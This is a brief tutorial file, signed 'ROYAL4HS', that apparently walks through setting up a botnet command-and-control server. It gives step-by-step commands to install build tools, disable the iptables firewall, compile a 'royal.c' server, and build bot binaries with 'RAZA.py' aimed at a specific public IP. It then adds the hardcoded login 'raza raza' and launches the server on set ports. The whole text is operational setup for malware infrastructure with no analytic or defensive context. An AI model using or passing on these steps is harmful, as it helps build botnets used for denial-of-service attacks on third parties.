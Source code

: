 Tut Made My ROYAL4HS
----------------------------
Put server Ip in bot_ROYAL4HS.c						 
--------------------------------------------------------------------
yum install python-paramiko nano screen gcc perl wget lbzip unzip -y
--------------------------------------------------------------------
service httpd restart 
service iptables stop
--------------------------------------------------------------------
gcc royal.c -o server -pthread
--------------------------------------------------------------------
python RAZA.py bot_RROYAL4HS.c 51.89.62.246  (Server IP)
--------------------------------------------------------------------
echo raza raza >>Login.txt
------------------------------
screen ./server 1111 1 8882
------------------------------
If Doesn't Screen
------------------------------
yum install screen
------------------------------
pkill screen
------------------------------
screen ./server 1111 1 8882
